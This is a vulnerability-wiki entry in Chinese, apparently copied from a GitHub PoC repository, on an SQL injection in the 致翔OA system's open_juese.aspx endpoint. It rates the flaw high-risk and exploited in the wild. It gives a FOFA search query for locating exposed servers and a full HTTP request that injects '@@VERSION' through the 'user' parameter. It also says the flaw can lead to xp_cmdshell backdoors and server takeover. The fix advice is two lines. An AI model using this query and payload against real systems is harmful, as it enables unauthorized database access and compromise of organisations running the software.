

# 致翔OA open_juese.aspx SQL注入漏洞

# 漏洞描述

致翔OA open_juese.aspx 接口存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 影响版本

致翔OA

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="致翔软件-致翔OA"

POC/EXP：

GET /OpenWindows/open_juese.aspx?key=1&name=1&user=-1)+and+1=@@VERSION--+&requeststr= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
